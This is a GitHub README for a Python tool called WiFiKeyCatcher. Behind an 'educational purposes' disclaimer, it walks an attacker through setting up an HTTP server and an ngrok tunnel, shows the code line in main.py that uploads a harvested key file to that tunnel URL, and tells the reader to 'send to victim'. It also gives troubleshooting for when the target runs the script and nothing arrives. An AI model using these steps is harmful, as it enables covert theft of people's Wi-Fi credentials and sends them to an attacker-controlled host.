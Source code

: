 <p align="center">
  <img src="https://logos-world.net/wp-content/uploads/2022/03/Wi-Fi-Logo.png"/>
</p>
 <h3><p align="center">
    ⚠️ Disclaimer: This repository is intended for educational purposes exclusively. I bear no responsibility for any illicit or unauthorized use of this project.
</p></h3>
</p>
<p align="center">
  <img src="https://img.shields.io/badge/Version-0.0.1-green" alt=""/>
  <img src="https://img.shields.io/badge/Written in-Python-blue" alt=""/>
  <img src="https://img.shields.io/badge/Author-Ibn Aleem-red" alt=""/>
</p>

# Setup
1. Clone this repository:
```
$ git clone https://github.com/ibnaleem/WiFiKeyCatcher.git
```
2. Run `HTTPServer`:
```
$ py -m http.server
```
3. [Install ngrok](https://ngrok.com/download)
4. Configure auth-token in terminal:
```
$ ngrok config add-authtoken <token>
```
5. Start tunnel on port 8000:
```
$ ngrok http 80
```
If successfull, you should see all of your system directories as embeded links.

6, Copy ngrok URL and paste into `main.py` (line 52):
```python
url = "https://ngrok-url-here"
files = {'file': open(f'{curr_path}.txt', 'rb')}
```

Save and send to victim. Note: ngrok must be running to obtain WiFi-Keys

#### Target Ran Script, Nothing Received
Make sure your target has Python installed, and you're running HTTP server + ngrok
